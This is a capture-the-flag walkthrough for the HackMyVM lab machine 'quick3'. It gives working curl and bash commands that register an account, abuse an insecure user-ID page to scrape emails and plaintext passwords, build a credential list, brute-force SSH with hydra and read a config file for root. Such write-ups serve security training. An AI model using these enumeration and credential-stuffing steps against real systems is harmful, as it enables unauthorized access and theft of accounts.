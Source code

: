```yaml
---
title: "quick3 - eMVee"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
tags:
  - Hacking
  - Walkthrough
  - HackMyVM
  - quick3
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# quick3 - eMVee
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Title:|quick3|
|Author:|[eMVee](https://hackmyvm.eu/profile/?user=eMVee)|
|Release date:|2024-02-19|
|Download from:|[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=quick3)|
|Level:|Easy|
|System:|linux|
|You'll learn:|Bash scripting|

# 01. Register new user
```bash
export IP=172.16.1.127
curl -d "name=newuser&email=newmail@newmail.com&password=password&register=Register" http://$IP/customer/index.php
```
Registration successful
{: .text-justify}
# 02. Login and get a cookie
```bash
curl -v -d 'email=newmail@newmail.com&password=password&login=Login' 'http://172.16.1.127/customer/login.php'
```
*   Trying 172.16.1.127:80...
* Connected to 172.16.1.127 (172.16.1.127) port 80
> POST /customer/login.php HTTP/1.1
> Host: 172.16.1.127
> User-Agent: curl/8.5.0
> Accept: */*
> Content-Length: 55
> Content-Type: application/x-www-form-urlencoded
> 
< HTTP/1.1 302 Found
< Date: Tue, 20 Feb 2024 00:06:22 GMT
< Server: Apache/2.4.52 (Ubuntu)
< Set-Cookie: PHPSESSID=hab58kcfs74fgp9vtv78i92de5; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< location: dashboard.php
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host 172.16.1.127 left intact
# 03. Create a list of emails
```bash
cookie="PHPSESSID=hab58kcfs74fgp9vtv78i92de5"
pattern1="fa-envelope-o"
pattern2=": .*@*<"
pattern3=' :<'

for i in {1..28}; do
        curl -s -b "$cookie" http://$IP/customer/user.php?id=$i | grep $pattern1 | grep -o "$pattern2" | tr -d "$pattern3"
done > emails.txt
```
# 04. Create a list of passwords
```bash
cookie="PHPSESSID=hab58kcfs74fgp9vtv78i92de5"
pattern1="oldpassword\" value="
pattern2="value=\".*\""
pattern3='s/value=//g; s/"//g'

for i in {1..28}; do
        curl -s -b "$cookie" http://$IP/customer/user.php?id=$i | grep "$pattern1" | grep -o "$pattern2" | sed "$pattern3"
done > passwords.txt
```
# 05. Create a list of the type user:pass
```bash
paste emails.txt passwords.txt | sed 's/@.*hmv/:/' | tr -d ' \t' > user_pass.txt
cat user_pass.txt | awk -F'[.:]' {'print $1":"$NF'} > user_pass2.txt
```
# 06. Find the password for the SSH user
```bash
hydra -V -C user_pass2.txt ssh://$IP
```
# 07. Find the password for the root user
```bash
bash
cat /var/www/html/customer/config.php
```